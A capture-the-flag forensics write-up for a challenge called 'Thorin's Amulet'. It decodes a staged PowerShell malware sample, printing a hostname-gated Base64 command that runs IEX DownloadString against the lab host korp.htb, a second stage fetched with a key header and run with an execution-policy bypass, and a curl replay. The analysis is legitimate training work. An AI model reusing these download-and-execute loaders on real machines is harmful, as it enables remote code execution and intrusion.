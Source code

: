 # Thorin's Amulet

Garrick and Thorin’s visit to Stonehelm took an unexpected turn when Thorin’s old rival, Bron Ironfist, challenged him to a forging contest. In the end Thorin won the contest with a beautifully engineered clockwork amulet but the victory was marred by an intrusion. Saboteurs stole the amulet and left behind some tracks. Because of that it was possible to retrieve the malicious artifact that was used to start the attack. Can you analyze it and reconstruct what happened? Note: make sure that domain `korp.htb` resolves to your docker instance IP and also consider the assigned port to interact with the service.

-----

We are given an `artifact.ps1` script which only executes a Base64-encoded string if the hostname matches `WORKSTATION-DM-0043`:

```powershell
function qt4PO {
    if ($env:COMPUTERNAME -ne "WORKSTATION-DM-0043") {
        exit
    }
    powershell.exe -NoProfile -NonInteractive -EncodedCommand "SUVYIChOZXctT2JqZWN0IE5ldC5XZWJDbGllbnQpLkRvd25sb2FkU3RyaW5nKCJodHRwOi8va29ycC5odGIvdXBkYXRlIik="
}
qt4PO
```

The string decodes to an `IEX`/`Invoke-Expression` command which downloads an `update` file from external domain:

```powershell
IEX (New-Object Net.WebClient).DownloadString("http://korp.htb/update")
```

Setting the `/etc/hosts` entry of `korp.htb` to our given IP and port, we receive an additional `update.ps1` script:

```powershell
function aqFVaq {
    Invoke-WebRequest -Uri "http://korp.htb/a541a" -Headers @{"X-ST4G3R-KEY"="5337d322906ff18afedc1edc191d325d"} -Method GET -OutFile a541a.ps1
    powershell.exe -exec Bypass -File "a541a.ps1"
}
aqFVaq
```

The `aqFVaq` function makes a web request via `Invoke-WebRequest` to the same domain specifying headers, downloading and executing an additional PS1 script, `a541a.ps1`.

Replicating this with `curl` retrieves the file:

```
curl -H "X-ST4G3R-KEY: 5337d322906ff18afedc1edc191d325d" -o a541a.ps1 http://korp.htb:[PORT]/a541a
```

```powershell
$a35 = "4854427b37683052314e5f4834355f346c573459355f3833336e5f344e5f39723334375f314e56336e3730727d"
($a35-split"(..)"|?{$_}|%{[char][convert]::ToInt16($_,16)}) -join ""
```

The string is encoded in hex which decodes to the flag:

```
HTB{7h0R1N_H45_4lW4Y5_833n_4N_9r347_1NV3n70r}
```